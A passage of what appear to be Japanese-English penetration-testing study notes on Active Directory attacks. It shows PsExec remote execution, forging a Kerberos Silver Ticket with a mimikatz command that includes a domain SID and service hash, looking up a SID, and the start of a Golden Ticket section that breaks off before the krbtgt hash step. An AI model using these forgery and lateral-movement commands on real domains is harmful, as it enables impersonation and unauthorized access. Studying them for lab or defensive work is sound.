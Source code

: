 ```
```
PS C:¥Tools¥active_directory> .¥PsExec.exe ¥¥dc01 cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
C:¥Windows¥system32>
```

## Pass The Ticket
### Silver Ticket Crafting

> 特定のアカウントとしてService Ticketを偽造し、当該アカウントになりすまして特定サービスを利用する。

> 既に、サービスアカウントのパスワードハッシュをクラックし、サービスチケットからパス ワードを取得できることを示しました。このパスワードは、サービスアカウントで利用可能 なリソースにアクセスするために使用することができます。
しかし、そのサービスアカウントがいずれかのサーバのローカル管理者でない場合、pass the hash や overpass the hash のようなベクターを使ってラテラルムーブメントを行うことがで きないため、別の方法を使う必要があります。

> 
例えば、サービスアカウント iis_service のコンテキストで実行されている IIS サーバに対 して認証を行うと、サービスチケットに存在するグループメンバーシップに応じて、IIS サ ーバでどの権限を持つかを IIS アプリケーションが決定します。
しかし、サービスアカウントのパスワードまたはそれに関連する NTLM ハッシュがあれば、 独自のサービスチケットを作成し、ターゲットリソース(この例では IIS アプリケーション) に任意の権限でアクセスすることができます。このカスタムで作成したチケットは「シルバーチケット」と呼ばれる


（シルバーチケットの生成には、平文のパスワードではなくパスワードハッシュを使用します。）


```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

It may be possible to execute command with Silver Ticket:

```
#0> client: ...
    server: cifs/WIN2008R2.pentest.local@PENTEST.LOCAL
```

の場合

```
C:\> PsExec.exe \\win2008r2 whoami
```

(how to find SID)

```
C:¥>whoami /user
USER INFORMATION
----------------
User Name SID
=========== ============================================== 
corp¥offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```


### Golden Ticket Crafting
I make the original TGT namely **Golden Ticket**.

This needs **krbtgt's hash**.

Get the krbtgt's hash:
```